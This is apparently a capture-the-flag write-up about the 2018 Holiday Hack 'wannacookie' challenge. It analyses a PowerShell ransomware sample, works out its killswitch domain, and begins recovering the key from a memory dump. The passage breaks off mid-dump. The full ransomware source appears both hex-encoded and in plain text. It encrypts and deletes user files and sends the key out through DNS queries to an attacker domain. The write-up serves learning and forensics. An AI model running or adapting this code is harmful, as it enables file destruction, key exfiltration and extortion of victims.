2446696c6553522e436c6f736528293b2446696c6553572e436c6f736528293b436c6561722d7661726961626c65202d4e616d6520226b6579223b52656d6f76652d4974656d202446696c657d7d3b66756e6374696f6e20483242207b706172616d28244858293b244858203d20244858202d73706c69742027282e2e2927207c203f207b20245f207d3b466f724561636820282476616c756520696e20244858297b5b436f6e766572745d3a3a546f496e743332282476616c75652c3136297d7d3b66756e6374696f6e2041324828297b506172616d282461293b2463203d2027273b2462203d2024612e546f43686172417272617928293b3b466f7265616368202824656c656d656e7420696e20246229207b2463203d202463202b20222022202b205b53797374656d2e537472696e675d3a3a466f726d617428227b303a587d222c205b53797374656d2e436f6e766572745d3a3a546f55496e7433322824656c656d656e7429297d3b72657475726e202463202d7265706c616365202720277d3b66756e6374696f6e204832412829207b506172616d282461293b246f7574613b2461202d73706c69742027282e2e2927207c203f207b20245f207d20207c20666f7245616368207b5b636861725d285b636f6e766572745d3a3a746f696e74313628245f2c313629297d207c20666f7245616368207b246f757461203d20246f757461202b20245f7d3b72657475726e20246f7574617d3b66756e6374696f6e20423248207b706172616d2824444543293b24746d70203d2027273b466f724561636820282476616c756520696e2024444543297b2461203d20227b303a787d22202d66205b496e745d2476616c75653b6966202824612e6c656e677468202d65712031297b24746d70202b3d20273027202b2024617d20656c7365207b24746d70202b3d2024617d7d3b72657475726e2024746d707d3b66756e6374696f6e2074695f726f78207b706172616d282462312c20246232293b246231203d20242848324220246231293b246232203d20242848324220246232293b24636f6e74203d204e65772d4f626a65637420427974655b5d202462312e636f756e743b696620282462312e636f756e74202d6571202462322e636f756e7429207b666f722824693d303b202469202d6c74202462312e636f756e74203b2024692b2b29207b24636f6e745b24695d203d202462315b24695d202d62786f72202462325b24695d7d7d3b72657475726e2024636f6e747d3b66756e6374696f6e20423247207b706172616d285b627974655b5d5d2444617461293b50726f63657373207b246f7574203d205b53797374656d2e494f2e4d656d6f727953747265616d5d3a3a6e657728293b246753747265616d203d204e65772d4f626a6563742053797374656d2e494f2e436f6d7072657373696f6e2e477a697053747265616d20246f75742c20285b494f2e436f6d7072657373696f6e2e436f6d7072657373696f6e4d6f64655d3a3a436f6d7072657373293b246753747265616d2e57726974652824446174612c20302c2024446174612e4c656e677468293b246753747265616d2e436c6f736528293b72657475726e20246f75742e546f417272617928297d7d3b66756e6374696f6e20473242207b706172616d285b627974655b5d5d2444617461293b50726f63657373207b2453726344617461203d204e65772d4f626a6563742053797374656d2e494f2e4d656d6f727953747265616d28202c20244461746120293b246f7574707574203d204e65772d4f626a6563742053797374656d2e494f2e4d656d6f727953747265616d3b246753747265616d203d204e65772d4f626a6563742053797374656d2e494f2e436f6d7072657373696f6e2e477a697053747265616d2024537263446174612c20285b494f2e436f6d7072657373696f6e2e436f6d7072657373696f6e4d6f64655d3a3a4465636f6d7072657373293b246753747265616d2e436f7079546f2820246f757470757420293b246753747265616d2e436c6f736528293b24537263446174612e436c6f736528293b5b627974655b5d5d202462797465417272203d20246f75747075742e546f417272617928293b72657475726e2024627974654172727d7d3b66756e6374696f6e20736831285b537472696e675d2024537472696e6729207b245342203d204e65772d4f626a6563742053797374656d2e546578742e537472696e674275696c6465723b5b53797374656d2e53656375726974792e43727970746f6772617068792e48617368416c676f726974686d5d3a3a43726561746528225348413122292e436f6d7075746548617368285b53797374656d2e546578742e456e636f64696e675d3a3a555446382e47657442797465732824537472696e6729297c257b5b566f69645d2453422e417070656e6428245f2e546f537472696e67282278322229297d3b2453422e546f537472696e6728297d3b66756e6374696f6e20705f6b5f6528246b65795f62797465732c205b627974655b5d5d247075625f6279746573297b2463657274203d204e65772d4f626a656374202d547970654e616d652053797374656d2e53656375726974792e43727970746f6772617068792e583530394365727469666963617465732e583530394365727469666963617465323b24636572742e496d706f727428247075625f6279746573293b24656e634b6579203d2024636572742e5075626c69634b65792e4b65792e456e637279707428246b65795f62797465732c202474727565293b72657475726e2024284232482024656e634b6579297d3b66756e6374696f6e20655f6e5f64207b706172616d28246b65792c2024616c6c66696c65732c20246d616b655f636f6f6b696520293b2474636f756e74203d2031323b666f722028202466696c653d303b202466696c65202d6c742024616c6c66696c65732e6c656e6774683b202466696c652b2b202029207b7768696c652028247472756529207b2472756e6e696e67203d2040284765742d4a6f62207c2057686572652d4f626a656374207b20245f2e5374617465202d6571202752756e6e696e6727207d293b696620282472756e6e696e672e436f756e74202d6c65202474636f756e7429207b53746172742d4a6f6220202d536372697074426c6f636b207b706172616d28246b65792c202446696c652c2024747275655f66616c7365293b7472797b655f645f66696c6520246b6579202446696c652024747275655f66616c73657d206361746368207b245f2e457863657074696f6e2e4d657373616765207c204f75742d537472696e67207c204f75742d46696c6520242824656e763a7573657270726f66696c652b275c4465736b746f705c70735f6c6f672e7478742729202d617070656e647d7d202d6172677320246b65792c2024616c6c66696c65735b2466696c655d2c20246d616b655f636f6f6b6965202d496e697469616c697a6174696f6e536372697074202466756e6374696f6e733b627265616b7d20656c7365207b53746172742d536c656570202d6d203230303b636f6e74696e75657d7d7d7d3b66756e6374696f6e20675f6f5f646e7328246629207b2468203d2027273b666f72656163682028246920696e20302e2e285b636f6e766572745d3a3a546f496e7433322824285265736f6c76652d446e734e616d65202d5365727665722065726f68657466616e752e636f6d202d4e616d65202224662e65726f68657466616e752e636f6d22202d5479706520545854292e537472696e67732c203130292d312929207b2468202b3d2024285265736f6c76652d446e734e616d65202d5365727665722065726f68657466616e752e636f6d202d4e616d65202224692e24662e65726f68657466616e752e636f6d22202d5479706520545854292e537472696e67737d3b72657475726e2028483241202468297d3b66756e6374696f6e20735f325f63282461737472696e672c202473697a653d333229207b246e65775f617272203d204028293b246368756e6b5f696e6465783d303b666f726561636828246920696e20312e2e24282461737472696e672e6c656e677468202f202473697a652929207b246e65775f617272202b3d2040282461737472696e672e737562737472696e6728246368756e6b5f696e6465782c2473697a6529293b246368756e6b5f696e646578202b3d202473697a657d3b72657475726e20246e65775f6172727d3b66756e6374696f6e20736e645f6b2824656e635f6b29207b246368756e6b73203d2028735f325f632024656e635f6b20293b666f72656163682028246a20696e20246368756e6b7329207b69662028246368756e6b732e496e6465784f6628246a29202d6571203029207b246e5f635f6964203d2024285265736f6c76652d446e734e616d65202d5365727665722065726f68657466616e752e636f6d202d4e616d652022246a2e364236353739363636463732363236463734363936342e65726f68657466616e752e636f6d22202d5479706520545854292e537472696e67737d20656c7365207b24285265736f6c76652d446e734e616d65202d5365727665722065726f68657466616e752e636f6d202d4e616d652022246e5f635f69642e246a2e364236353739363636463732363236463734363936342e65726f68657466616e752e636f6d22202d5479706520545854292e537472696e67737d7d3b72657475726e20246e5f635f69647d3b66756e6374696f6e2077616e63207b245331203d2022316638623038303030303030303030303034303039336537363736323132393736356532653165363634306636333631653765323032303030636464356335633130303030303030223b69662028246e756c6c202d6e652028285265736f6c76652d446e734e616d65202d4e616d6520242848324120242842324820242874695f726f78202428423248202428473242202428483242202453312929292024285265736f6c76652d446e734e616d65202d5365727665722065726f68657466616e752e636f6d202d4e616d652036423639364336433733373736393734363336382e65726f68657466616e752e636f6d202d5479706520545854292e537472696e67732929292e546f537472696e672829202d4572726f72416374696f6e2030202d53657276657220382e382e382e38292929207b72657475726e7d3b6966202824286e657473746174202d616e6f207c2053656c6563742d537472696e6720223132372e302e302e313a3830383022292e6c656e677468202d6e652030202d6f7220284765742d576d694f626a6563742057696e33325f436f6d707574657253797374656d292e446f6d61696e202d6e6520224b52494e474c45434153544c452229207b72657475726e7d3b24705f6b203d205b53797374656d2e436f6e766572745d3a3a46726f6d426173653634537472696e67282428675f6f5f646e73282237333635373237363635373232453633373237342229202920293b24625f6b203d20285b53797374656d2e546578742e456e636f64696e675d3a3a556e69636f64652e4765744279746573282428285b636861725b5d5d285b636861725d30312e2e5b636861725d32353529202b20285b636861725b5d5d285b636861725d30312e2e5b636861725d3235352929202b20302e2e39207c20736f7274207b4765742d52616e646f6d7d295b302e2e31355d202d6a6f696e202727292920207c203f207b245f202d6e6520307830307d293b24685f6b203d2024284232482024625f6b293b246b5f68203d2024287368312024685f6b293b24705f6b5f655f6b203d2028705f6b5f652024625f6b2024705f6b292e546f537472696e6728293b24635f6964203d2028736e645f6b2024705f6b5f655f6b293b24645f74203d20282824284765742d44617465292e546f556e6976657273616c54696d652829207c204f75742d537472696e6729202d7265706c61636520226072606e22293b5b61727261795d24665f63203d2024284765742d4368696c644974656d202a2e656c666462202d4578636c756465202a2e77616e6e61636f6f6b6965202d50617468202428242824656e763a7573657270726f66696c652b275c4465736b746f7027292c242824656e763a7573657270726f66696c652b275c446f63756d656e747327292c242824656e763a7573657270726f66696c652b275c566964656f7327292c242824656e763a7573657270726f66696c652b275c506963747572657327292c242824656e763a7573657270726f66696c652b275c4d75736963272929202d52656375727365207c207768657265207b202120245f2e50534973436f6e7461696e6572207d207c20466f72656163682d4f626a656374207b245f2e46756c6c6e616d657d293b655f6e5f642024625f6b2024665f632024747275653b436c6561722d7661726961626c65202d4e616d652022685f6b223b436c6561722d7661726961626c65202d4e616d652022625f6b223b246c75726c203d2027687474703a2f2f3132372e302e302e313a383038302f273b2468746d6c5f63203d20407b27474554202f2720203d20202428675f6f5f646e7320284132482022736f757263652e6d696e2e68746d6c2229293b27474554202f636c6f73652720203d2020273c703e427965213c2f703e277d3b53746172742d4a6f62202d536372697074426c6f636b7b706172616d282475726c293b53746172742d536c6565702031303b4164642d74797065202d417373656d626c794e616d652053797374656d2e57696e646f77732e466f726d733b73746172742d70726f6365737320222475726c22202d57696e646f775374796c65204d6178696d697a65643b53746172742d736c65657020323b5b53797374656d2e57696e646f77732e466f726d732e53656e644b6579735d3a3a53656e645761697428227b4631317d22297d202d41726720246c75726c3b246c697374203d204e65772d4f626a6563742053797374656d2e4e65742e487474704c697374656e65723b246c6973742e50726566697865732e41646428246c75726c293b246c6973742e537461727428293b747279207b24636c6f7365203d202466616c73653b7768696c652028246c6973742e49734c697374656e696e6729207b24636f6e74657874203d20246c6973742e476574436f6e7465787428293b24526571203d2024636f6e746578742e526571756573743b2452657370203d2024636f6e746578742e526573706f6e73653b247265637664203d20277b307d207b317d27202d6620245265712e687474706d6574686f642c20245265712e75726c2e6c6f63616c706174683b69662028247265637664202d65712027474554202f2729207b2468746d6c203d202468746d6c5f635b2472656376645d7d20656c736569662028247265637664202d65712027474554202f646563727970742729207b24616b6579203d20245265712e5175657279537472696e672e4974656d28226b657922293b69662028246b5f68202d65712024287368312024616b65792929207b24616b6579203d2024284832422024616b6579293b5b61727261795d24665f63203d2024284765742d4368696c644974656d202d5061746820242824656e763a7573657270726f66696c6529202d5265637572736520202d46696c746572202a2e77616e6e61636f6f6b6965207c207768657265207b202120245f2e50534973436f6e7461696e6572207d207c20466f72656163682d4f626a656374207b245f2e46756c6c6e616d657d293b655f6e5f642024616b65792024665f63202466616c73653b2468746d6c203d202246696c65732068617665206265656e2064656372797074656421223b24636c6f7365203d2024747275657d20656c7365207b2468746d6c203d2022496e76616c6964204b657921227d7d20656c736569662028247265637664202d65712027474554202f636c6f73652729207b24636c6f7365203d2024747275653b2468746d6c203d202468746d6c5f635b2472656376645d7d20656c736569662028247265637664202d65712027474554202f636f6f6b69655f69735f706169642729207b24635f6e5f6b203d2024285265736f6c76652d446e734e616d65202d5365727665722065726f68657466616e752e636f6d202d4e616d6520282224635f69642e3732363136653733366636643639373337303631363936342e65726f68657466616e752e636f6d222e7472696d282929202d5479706520545854292e537472696e67733b696620282024635f6e5f6b2e6c656e677468202d65712033322029207b2468746d6c203d2024635f6e5f6b7d20656c7365207b2468746d6c203d2022554e504149447c24635f69647c24645f74227d7d20656c7365207b24526573702e737461747573636f6465203d203430343b2468746d6c203d20273c68313e343034204e6f7420466f756e643c2f68313e277d3b24627566666572203d205b546578742e456e636f64696e675d3a3a555446382e4765744279746573282468746d6c293b24526573702e436f6e74656e744c656e6774683634203d20246275666665722e6c656e6774683b24526573702e4f757470757453747265616d2e577269746528246275666665722c20302c20246275666665722e6c656e677468293b24526573702e436c6f736528293b6966202824636c6f736529207b246c6973742e53746f7028293b72657475726e7d7d7d2066696e616c6c79207b246c6973742e53746f7028297d7d3b77616e633b0a

> $functions = {function e_d_file($key, $File, $enc_it) {[byte[]]$key = $key;$Suffix = "`.wannacookie";[System.Reflection.Assembly]::LoadWithPartialName('System.Security.Cryptography');[System.Int32]$KeySize = $key.Length*8;$AESP = New-Object 'System.Security.Cryptography.AesManaged';$AESP.Mode = [System.Security.Cryptography.CipherMode]::CBC;$AESP.BlockSize = 128;$AESP.KeySize = $KeySize;$AESP.Key = $key;$FileSR = New-Object System.IO.FileStream($File, [System.IO.FileMode]::Open);if ($enc_it) {$DestFile = $File + $Suffix} else {$DestFile = ($File -replace $Suffix)};$FileSW = New-Object System.IO.FileStream($DestFile, [System.IO.FileMode]::Create);if ($enc_it) {$AESP.GenerateIV();$FileSW.Write([System.BitConverter]::GetBytes($AESP.IV.Length), 0, 4);$FileSW.Write($AESP.IV, 0, $AESP.IV.Length);$Transform = $AESP.CreateEncryptor()} else {[Byte[]]$LenIV = New-Object Byte[] 4;$FileSR.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null;$FileSR.Read($LenIV,  0, 3) | Out-Null;[Int]$LIV = [System.BitConverter]::ToInt32($LenIV,  0);[Byte[]]$IV = New-Object Byte[] $LIV;$FileSR.Seek(4, [System.IO.SeekOrigin]::Begin) | Out-Null;$FileSR.Read($IV, 0, $LIV) | Out-Null;$AESP.IV = $IV;$Transform = $AESP.CreateDecryptor()};$CryptoS = New-Object System.Security.Cryptography.CryptoStream($FileSW, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write);[Int]$Count = 0;[Int]$BlockSzBts = $AESP.BlockSize / 8;[Byte[]]$Data = New-Object Byte[] $BlockSzBts;Do {$Count = $FileSR.Read($Data, 0, $BlockSzBts);$CryptoS.Write($Data, 0, $Count)} While ($Count -gt 0);$CryptoS.FlushFinalBlock();$CryptoS.Close();$FileSR.Close();$FileSW.Close();Clear-variable -Name "key";Remove-Item $File}};function H2B {param($HX);$HX = $HX -split '(..)' | ? { $_ };ForEach ($value in $HX){[Convert]::ToInt32($value,16)}};function A2H(){Param($a);$c = '';$b = $a.ToCharArray();;Foreach ($element in $b) {$c = $c + " " + [System.String]::Format("{0:X}", [System.Convert]::ToUInt32($element))};return $c -replace ' '};function H2A() {Param($a);$outa;$a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$outa = $outa + $_};return $outa};function B2H {param($DEC);$tmp = '';ForEach ($value in $DEC){$a = "{0:x}" -f [Int]$value;if ($a.length -eq 1){$tmp += '0' + $a} else {$tmp += $a}};return $tmp};function ti_rox {param($b1, $b2);$b1 = $(H2B $b1);$b2 = $(H2B $b2);$cont = New-Object Byte[] $b1.count;if ($b1.count -eq $b2.count) {for($i=0; $i -lt $b1.count ; $i++) {$cont[$i] = $b1[$i] -bxor $b2[$i]}};return $cont};function B2G {param([byte[]]$Data);Process {$out = [System.IO.MemoryStream]::new();$gStream = New-Object System.IO.Compression.GzipStream $out, ([IO.Compression.CompressionMode]::Compress);$gStream.Write($Data, 0, $Data.Length);$gStream.Close();return $out.ToArray()}};function G2B {param([byte[]]$Data);Process {$SrcData = New-Object System.IO.MemoryStream( , $Data );$output = New-Object System.IO.MemoryStream;$gStream = New-Object System.IO.Compression.GzipStream $SrcData, ([IO.Compression.CompressionMode]::Decompress);$gStream.CopyTo( $output );$gStream.Close();$SrcData.Close();[byte[]] $byteArr = $output.ToArray();return $byteArr}};function sh1([String] $String) {$SB = New-Object System.Text.StringBuilder;[System.Security.Cryptography.HashAlgorithm]::Create("SHA1").ComputeHash([System.Text.Encoding]::UTF8.GetBytes($String))|%{[Void]$SB.Append($_.ToString("x2"))};$SB.ToString()};function p_k_e($key_bytes, [byte[]]$pub_bytes){$cert = New-Object -TypeName System.Security.Cryptography.X509Certificates.X509Certificate2;$cert.Import($pub_bytes);$encKey = $cert.PublicKey.Key.Encrypt($key_bytes, $true);return $(B2H $encKey)};function e_n_d {param($key, $allfiles, $make_cookie );$tcount = 12;for ( $file=0; $file -lt $allfiles.length; $file++  ) {while ($true) {$running = @(Get-Job | Where-Object { $_.State -eq 'Running' });if ($running.Count -le $tcount) {Start-Job  -ScriptBlock {param($key, $File, $true_false);try{e_d_file $key $File $true_false} catch {$_.Exception.Message | Out-String | Out-File $($env:userprofile+'\Desktop\ps_log.txt') -append}} -args $key, $allfiles[$file], $make_cookie -InitializationScript $functions;break} else {Start-Sleep -m 200;continue}}}};function g_o_dns($f) {$h = '';foreach ($i in 0..([convert]::ToInt32($(Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).Strings, 10)-1)) {$h += $(Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).Strings};return (H2A $h)};function s_2_c($astring, $size=32) {$new_arr = @();$chunk_index=0;foreach($i in 1..$($astring.length / $size)) {$new_arr += @($astring.substring($chunk_index,$size));$chunk_index += $size};return $new_arr};function snd_k($enc_k) {$chunks = (s_2_c $enc_k );foreach ($j in $chunks) {if ($chunks.IndexOf($j) -eq 0) {$n_c_id = $(Resolve-DnsName -Server erohetfanu.com -Name "$j.6B6579666F72626F746964.erohetfanu.com" -Type TXT).Strings} else {$(Resolve-DnsName -Server erohetfanu.com -Name "$n_c_id.$j.6B6579666F72626F746964.erohetfanu.com" -Type TXT).Strings}};return $n_c_id};function wanc {$S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000";if ($null -ne ((Resolve-DnsName -Name $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))).ToString() -ErrorAction 0 -Server 8.8.8.8))) {return};if ($(netstat -ano | Select-String "127.0.0.1:8080").length -ne 0 -or (Get-WmiObject Win32_ComputerSystem).Domain -ne "KRINGLECASTLE") {return};$p_k = [System.Convert]::FromBase64String($(g_o_dns("7365727665722E637274") ) );$b_k = ([System.Text.Encoding]::Unicode.GetBytes($(([char[]]([char]01..[char]255) + ([char[]]([char]01..[char]255)) + 0..9 | sort {Get-Random})[0..15] -join ''))  | ? {$_ -ne 0x00});$h_k = $(B2H $b_k);$k_h = $(sh1 $h_k);$p_k_e_k = (p_k_e $b_k $p_k).ToString();$c_id = (snd_k $p_k_e_k);$d_t = (($(Get-Date).ToUniversalTime() | Out-String) -replace "`r`n");[array]$f_c = $(Get-ChildItem *.elfdb -Exclude *.wannacookie -Path $($($env:userprofile+'\Desktop'),$($env:userprofile+'\Documents'),$($env:userprofile+'\Videos'),$($env:userprofile+'\Pictures'),$($env:userprofile+'\Music')) -Recurse | where { ! $_.PSIsContainer } | Foreach-Object {$_.Fullname});e_n_d $b_k $f_c $true;Clear-variable -Name "h_k";Clear-variable -Name "b_k";$lurl = 'http://127.0.0.1:8080/';$html_c = @{'GET /'  =  $(g_o_dns (A2H "source.min.html"));'GET /close'  =  '<p>Bye!</p>'};Start-Job -ScriptBlock{param($url);Start-Sleep 10;Add-type -AssemblyName System.Windows.Forms;start-process "$url" -WindowStyle Maximized;Start-sleep 2;[System.Windows.Forms.SendKeys]::SendWait("{F11}")} -Arg $lurl;$list = New-Object System.Net.HttpListener;$list.Prefixes.Add($lurl);$list.Start();try {$close = $false;while ($list.IsListening) {$context = $list.GetContext();$Req = $context.Request;$Resp = $context.Response;$recvd = '{0} {1}' -f $Req.httpmethod, $Req.url.localpath;if ($recvd -eq 'GET /') {$html = $html_c[$recvd]} elseif ($recvd -eq 'GET /decrypt') {$akey = $Req.QueryString.Item("key");if ($k_h -eq $(sh1 $akey)) {$akey = $(H2B $akey);[array]$f_c = $(Get-ChildItem -Path $($env:userprofile) -Recurse  -Filter *.wannacookie | where { ! $_.PSIsContainer } | Foreach-Object {$_.Fullname});e_n_d $akey $f_c $false;$html = "Files have been decrypted!";$close = $true} else {$html = "Invalid Key!"}} elseif ($recvd -eq 'GET /close') {$close = $true;$html = $html_c[$recvd]} elseif ($recvd -eq 'GET /cookie_is_paid') {$c_n_k = $(Resolve-DnsName -Server erohetfanu.com -Name ("$c_id.72616e736f6d697370616964.erohetfanu.com".trim()) -Type TXT).Strings;if ( $c_n_k.length -eq 32 ) {$html = $c_n_k} else {$html = "UNPAID|$c_id|$d_t"}} else {$Resp.statuscode = 404;$html = '<h1>404 Not Found</h1>'};$buffer = [Text.Encoding]::UTF8.GetBytes($html);$Resp.ContentLength64 = $buffer.length;$Resp.OutputStream.Write($buffer, 0, $buffer.length);$Resp.Close();if ($close) {$list.Stop();return}}} finally {$list.Stop()}};wanc;

The objective for this piece of the challenge was to identify the killswitch domain, so I spent some time re-formatting and analyzing the malware. Several functions and the logic for the killswitch are given below:

```
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o};
function H2B {param($HX);$HX = $HX -split '(..)' | ? { $_ };ForEach ($value in $HX){[Convert]::ToInt32($value,16)}};
function A2H(){Param($a);$c = '';$b = $a.ToCharArray();;Foreach ($element in $b) {$c = $c + " " + [System.String]::Format("{0:X}", [System.Convert]::ToUInt32($element))};return $c -replace ' '};
function H2A() {Param($a);$outa;$a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$outa = $outa + $_};return $outa};
function B2H {param($DEC);$tmp = '';ForEach ($value in $DEC){$a = "{0:x}" -f [Int]$value;if ($a.length -eq 1){$tmp += '0' + $a} else {$tmp += $a}};return $tmp};
function ti_rox {param($b1, $b2);$b1 = $(H2B $b1);$b2 = $(H2B $b2);$cont = New-Object Byte[] $b1.count;if ($b1.count -eq $b2.count) {for($i=0; $i -lt $b1.count ; $i++) {$cont[$i] = $b1[$i] -bxor $b2[$i]}};return $cont};
function B2G {param([byte[]]$Data);Process {$out = [System.IO.MemoryStream]::new();$gStream = New-Object System.IO.Compression.GzipStream $out, ([IO.Compression.CompressionMode]::Compress);$gStream.Write($Data, 0, $Data.Length);$gStream.Close();return $out.ToArray()}};
function G2B {param([byte[]]$Data);Process {$SrcData = New-Object System.IO.MemoryStream( , $Data );$output = New-Object System.IO.MemoryStream;$gStream = New-Object System.IO.Compression.GzipStream $SrcData, ([IO.Compression.CompressionMode]::Decompress);$gStream.CopyTo( $output );$gStream.Close();$SrcData.Close();[byte[]] $byteArr = $output.ToArray();return $byteArr}};
$S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000";
((Resolve-DnsName -Name $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))).ToString() -ErrorAction 0 -Server 8.8.8.8))
```

Running these through powershell on a Windows VM shows that the `6B696C6C737769746368.erohetfanu.com` domain is queried (note: `6B696C6C737769746368` decodes as ASCII `killswitch`), decompressed, and then processed all to get the string `yippeekiyaa.aaay` which is used as our killswitch DNS request. With that, this piece of the challenge is complete.

**Recover Alabaster's Password**

The last piece of this challenge involved pulling out the key from a [forensic image](https://www.holidayhackchallenge.com/2018/challenges/forensic_artifacts.zip
) and decrypting an associated file. The forensic image is a powershell memory dump `powershell.exe_181109_104716.dmp` and the encrypted file is `alabaster_passwords.elfdb.wannacookie`. Since this was a powershell image and the `.elfdb` and `.wannacookie` extensions matched part of the powershell code I went about trying to decipher how the code worked to figure out what I was looking for in the memory dump. Spoiler alert - this turns out to not be relevant at all and I could have just looked at the memory dump for the answer :( as I describe below. Anyways, I re-formatted the relevant powershell code below

```powershell
function e_d_file($key, $File, $enc_it) {
  [byte[]]$key = $key;
  $Suffix = "`.wannacookie";
  [System.Reflection.Assembly]::LoadWithPartialName(\'System.Security.Cryptography\');
  [System.Int32]$KeySize = $key.Length*8;
  $AESP = New-Object \'System.Security.Cryptography.AesManaged\';
  $AESP.Mode = [System.Security.Cryptography.CipherMode]::CBC;
  $AESP.BlockSize = 128;
  $AESP.KeySize = $KeySize;
  $AESP.Key = $key;
  $FileSR = New-Object System.IO.FileStream($File, [System.IO.FileMode]::Open);
  if ($enc_it) {
    $DestFile = $File + $Suffix
  } else {
    $DestFile = ($File -replace $Suffix)
  };
  $FileSW = New-Object System.IO.FileStream($DestFile, [System.IO.FileMode]::Create);
  if ($enc_it) {
    $AESP.GenerateIV();
    $FileSW.Write([System.BitConverter]::GetBytes($AESP.IV.Length), 0, 4);
    $FileSW.Write($AESP.IV, 0, $AESP.IV.Length);
    $Transform = $AESP.CreateEncryptor()
  } else {
    [Byte[]]$LenIV = New-Object Byte[] 4;
    $FileSR.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null;
    $FileSR.Read($LenIV,  0, 3) | Out-Null;
    [Int]$LIV = [System.BitConverter]::ToInt32($LenIV,  0);
    [Byte[]]$IV = New-Object Byte[] $LIV;
    $FileSR.Seek(4, [System.IO.SeekOrigin]::Begin) | Out-Null;
    $FileSR.Read($IV, 0, $LIV) | Out-Null;
    $AESP.IV = $IV;
    $Transform = $AESP.CreateDecryptor()
  };
  $CryptoS = New-Object System.Security.Cryptography.CryptoStream($FileSW, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write);
  [Int]$Count = 0;
  [Int]$BlockSzBts = $AESP.BlockSize / 8;
  [Byte[]]$Data = New-Object Byte[] $BlockSzBts;
  Do {
    $Count = $FileSR.Read($Data, 0, $BlockSzBts);
    $CryptoS.Write($Data, 0, $Count)
  } While ($Count -gt 0);
  $CryptoS.FlushFinalBlock();
  $CryptoS.Close();
  $FileSR.Close();
  $FileSW.Close();
  Clear-variable -Name "key";
  Remove-Item $File
}

...

function sh1([String] $String) {
  $SB = New-Object System.Text.StringBuilder;
  [System.Security.Cryptography.HashAlgorithm]::Create("SHA1").ComputeHash([System.Text.Encoding]::UTF8.GetBytes($String))|%{[Void]$SB.Append($_.ToString("x2"))};
  $SB.ToString()
};
function p_k_e($key_bytes, [byte[]]$pub_bytes){
  $cert = New-Object -TypeName System.Security.Cryptography.X509Certificates.X509Certificate2;
  $cert.Import($pub_bytes);
  $encKey = $cert.PublicKey.Key.Encrypt($key_bytes, $true);
  return $(B2H $encKey)
};

...

$p_k = [System.Convert]::FromBase64String($(g_o_dns("7365727665722E637274") ) );
$b_k = ([System.Text.Encoding]::Unicode.GetBytes($(([char[]]([char]01..[char]255) + ([char[]]([char]01..[char]255)) + 0..9 | sort {Get-Random})[0..15] -join \'\'))  | ? {$_ -ne 0x00});
$h_k = $(B2H $b_k);
$k_h = $(sh1 $h_k);
$p_k_e_k = (p_k_e $b_k $p_k).ToString();
$c_id = (snd_k $p_k_e_k);
$d_t = (($(Get-Date).ToUniversalTime() | Out-String) -replace "`r`n");
[array]$f_c = $(Get-ChildItem *.elfdb -Exclude *.wannacookie -Path $($($env:userprofile+\'\\Desktop\'),$($env:userprofile+\'\\Documents\'),$($env:userprofile+\'\\Videos\'),$($env:userprofile+\'\\Pictures\'),$($env:userprofile+\'\\Music\')) -Recurse | where { ! $_.PSIsContainer } | Foreach-Object {$_.Fullname});
e_n_d $b_k $f_c $true;
Clear-variable -Name "h_k";
Clear-variable -Name "b_k";

...
```

Basically what the last part of the code is doing is generating a random AES key, hashing it, public key encrypting it, storing off those later values, encrypting all of the `.elfdb` files it finds, and then clearing out (`Clear-variable`) the AES keys which would be needed to decrypt the file. At this point I was defeated because I had spent a lot of time trying to read this powershell code only to find out that the key I really needed was probably cleared out of memory.

So I took a different approach - looking at the memory dump itself to see what I actually had. First, I grep'ed through the strings in the file for `elfdb` and found exactly one line of what looked like XML or some code with tags:

```
$ strings -a powershell.exe_181109_104716.dmp  | grep elfdb
<Obj RefId="0"><MS><Obj N="PowerShell" RefId="1"><MS><Obj N="Cmds" RefId="2"><TN RefId="0"><T>System.Collections.Generic.List`1[[System.Management.Automation.PSObject, System.Management.Automation, Version=3.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]]</T><T>System.Object</T></TN><LST><Obj RefId="3"><MS><S N="Cmd">param($key, $File, $true_false);try{e_d_file $key $File $true_false} catch {$_.Exception.Message | Out-String | Out-File $($env:userprofile+'\Desktop\ps_log.txt') -append}</S><B N="IsScript">true</B><Nil N="UseLocalScope" /><Obj N="MergeMyResult" RefId="4"><TN RefId="1"><T>System.Management.Automation.Runspaces.PipelineResultTypes</T><T>System.Enum</T><T>System.ValueType</T><T>System.Object</T></TN><ToString>None</ToString><I32>0</I32></Obj><Obj N="MergeToResult" RefId="5"><TNRef RefId="1" /><ToString>None</ToString><I32>0</I32></Obj><Obj N="MergePreviousResults" RefId="6"><TNRef RefId="1" /><ToString>None</ToString><I32>0</I32></Obj><Obj N="MergeError" RefId="7"><TNRef RefId="1" /><ToString>None</ToString><I32>0</I32></Obj><Obj N="MergeWarning" RefId="8"><TNRef RefId="1" /><ToString>None</ToString><I32>0</I32></Obj><Obj N="MergeVerbose" RefId="9"><TNRef RefId="1" /><ToString>None</ToString><I32>0</I32></Obj><Obj N="MergeDebug" RefId="10"><TNRef RefId="1" /><ToString>None</ToString><I32>0</I32></Obj><Obj N="MergeInformation" RefId="11"><TNRef RefId="1" /><ToString>None</ToString><I32>0</I32></Obj><Obj N="Args" RefId="12"><TNRef RefId="0" /><LST><Obj RefId="13"><MS><Nil N="N" /><Obj N="V" RefId="14"><TN RefId="2"><T>System.Object[]</T><T>System.Array</T><T>System.Object</T></TN><LST><By>251</By><By>207</By><By>193</By><By>33</By><By>145</By><By>93</By><By>153</By><By>204</By><By>32</By><By>163</By><By>211</By><By>213</By><By>216</By><By>79</By><By>131</By><By>8</By></LST></Obj></MS></Obj><Obj RefId="15"><MS><Nil 